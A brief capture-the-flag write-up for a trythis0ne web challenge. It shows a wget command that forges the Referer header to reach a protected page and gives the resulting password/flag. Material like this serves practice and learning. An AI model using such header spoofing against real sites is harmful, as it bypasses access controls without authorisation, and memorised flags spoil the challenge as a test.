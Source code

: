 # trythis0ne WhatDoYouMean Solution

in this level i simply changed my referrer header.
```
 wget -O Pwd.php http://trythis0ne.com/levels/web-challanges/ttp/Pwd.php --header="Referer: http://trythis0ne.com/levels/web-challanges/ttp/TARGET.PHP" && cat Pwd.php
```
that's what i get: `GoodWork! the password is Cyabr0 :)`


**Flag:** ***`Cyabr0`***

